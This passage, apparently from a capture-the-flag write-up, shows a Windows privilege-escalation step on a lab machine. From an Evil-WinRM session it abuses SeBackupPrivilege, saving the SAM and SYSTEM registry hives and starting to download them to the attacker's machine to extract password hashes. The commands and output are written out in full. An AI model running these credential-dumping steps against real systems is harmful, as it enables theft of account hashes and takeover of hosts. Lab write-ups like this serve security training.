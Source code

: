 ```
Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> 

```

The user has some interesting permissions `SeBackupPrivilege` and `SeRestorePrivilege`
## Privilege escalation
`SeBackupPrivilege` is a Windows privilege that allows a user to bypass file security to back up files and directories. This privilege can be dangerous for privilege escalation because it enables an attacker to access sensitive files, including password hashes and configuration files, without needing explicit permissions.

Once an attacker gains access to these files, they can potentially extract sensitive information or modify system configurations to elevate their privileges.

In this case we can use the permissions to dump the hash from the system.

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cd c:\
*Evil-WinRM* PS C:\> mkdir Temp


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         3/31/2025   2:16 PM                Temp


*Evil-WinRM* PS C:\> reg save hklm\sam c:\Temp\sam
The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\system c:\Temp\system
The operation completed successfully.

*Evil-WinRM* PS C:\> cd c:\temp
*Evil-WinRM* PS C:\temp> dir


    Directory: C:\temp


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/31/2025   2:17 PM          49152 sam
-a----         3/31/2025   2:17 PM       18558976 system


*Evil-WinRM* PS C:\temp> 

```
Now we should download the two files via evil-winrm to our attacking machine.
```
*Evil-WinRM* PS C:\temp> download sam
                                        
Info: Downloading C:\temp\sam to sam
                                        
```